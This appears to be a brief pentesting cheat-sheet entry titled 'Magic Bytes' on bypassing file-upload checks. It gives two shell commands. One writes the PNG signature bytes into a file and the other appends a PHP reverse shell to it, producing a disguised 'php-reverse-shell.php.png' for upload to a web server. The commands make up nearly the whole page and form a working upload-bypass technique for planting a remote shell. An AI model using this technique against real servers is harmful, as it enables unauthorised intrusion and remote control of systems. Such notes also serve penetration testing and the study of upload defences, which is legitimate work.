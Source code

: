 ```yaml
---
title: "Magic Bytes"
date: 2024-7-2
tags: ["file upload", "magic bytes", "png", "bypass"]
---
```


### Forge File Signature

{{< tab set1 tab1 active >}}png{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r >> php-reverse-shell.php.png
```

```console
cat php-reverse-shell.php >> php-reverse-shell.php.png
```

</div>

{{< /tabcontent >}}

<br>